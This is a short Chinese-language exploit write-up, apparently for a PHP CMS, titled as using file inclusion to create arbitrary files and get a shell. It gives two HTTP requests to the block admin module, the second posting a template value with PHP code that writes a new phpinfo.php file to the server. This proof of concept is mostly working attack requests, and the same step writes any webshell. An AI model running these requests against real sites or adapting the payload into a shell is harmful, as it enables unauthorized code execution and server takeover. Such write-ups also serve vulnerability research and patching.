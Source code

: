 

> 利用文件包含创建任意文件getshell


## 利用过程
1. 创建表
```http request
http://www.test.com/index.php?m=block&c=block_admin&pc_hash=123456&a=add&pos=1

post 数据
dosubmit=1&name=test&type=2
```

2. 写入phpinfo
```http request
http://www.test.com/index.php?m=block&c=block_admin&a=public_view&id=4

post 数据
template=<?php file_put_contents("phpinfo.php","<?php phpinfo();?>");
```
![phpinfo](images/phpinfo.png)